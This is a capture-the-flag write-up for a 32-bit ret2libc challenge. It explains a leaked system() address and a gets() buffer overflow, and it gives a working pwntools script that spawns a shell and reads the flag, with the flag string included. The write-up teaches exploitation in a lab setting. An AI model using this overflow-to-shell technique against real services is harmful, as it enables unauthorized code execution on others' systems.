





## ret2libc
### Architecture and protections
The binary is x32 and has no canary:



### Static analysis
`main()` leaks the runtime address of `system()` at line 14 and has a vulnerable `gets()` at line 17:



### Exploit planning
1. Given the runtime address of `system()`, the runtime base of libc can be found.
2. From there, the runtime address of the `"/bin/sh"` string in libc can be found.
3. Buffer overflow via `gets()` in `main()` is trivial as canary is absent.
4. Use `gets()` in `main()` to overflow the buffer and overwrite the return address to `system()`, with pointer to `"/bin/sh"` as the argument.

### Exploit crafting
Finding the pad length required:



Finding the correct remote libc using [libc.rip](https://libc.rip) and the runtime `system()` leak:



### Exploit code
```python
from pwn import *

def print_success(msg):
    print("[\033[1;92m+\033[0m] " + f"{msg}")

elf = context.binary = ELF("./THEGIVER", checksec=False)
libc = elf.libc # to replace with remote
context.log_level = "error"

p = process()

system_leak = int(p.recvline().strip().split(b" ")[-1], 16)
libc.address = system_leak - libc.sym['system']
print_success(f"system_leak : {hex(system_leak)}")
print_success(f"libc_base   : {hex(libc.address)}")

payload = flat(
    0x88 * b'A',
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b"/bin/sh"))
)

p.sendline(b"")
p.sendline(payload)
sleep(0.1)
p.sendline(b"cat flag.txt")
p.interactive()

# CDDC2025{DoYou_Know_THE_B00k?}
```

### Exploit success

